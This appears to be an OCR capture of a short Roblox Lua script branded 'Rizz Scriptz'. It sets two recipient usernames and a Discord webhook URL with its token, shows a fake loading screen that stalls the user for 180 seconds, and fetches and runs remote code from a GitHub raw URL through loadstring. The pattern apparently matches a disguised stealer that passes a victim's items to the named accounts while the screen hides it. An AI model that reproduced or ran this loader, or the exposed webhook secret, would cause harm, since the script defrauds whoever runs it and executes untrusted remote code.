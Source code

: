 UserName = "ipin_p1"

UserName2 = "ipin_p4"

Webhook = " https://discord.com/api/webhooks/1104277575993409607/3mzHDSLHpkF8amoLCGkOffPQzcG78Dp65_0lL6JondadqUQoSJlr4oA1tQr4Y5j8EpOO"

_G.LoadingScreen = true

_G.AntiLeave = false

_G.MouseLock = true 

_G.ScriptName = "Rizz Scriptz"

_G.FirstText = "Script Preparing"

_G.SecondText = "Script Loading..."

_G.ThirdText = "Almost Done..."

_G.WaitingTime = 180 --

loadstring(game:HttpGet("https://raw.githubusercontent.com/k4ftt/R/main/Main.lua", true))()

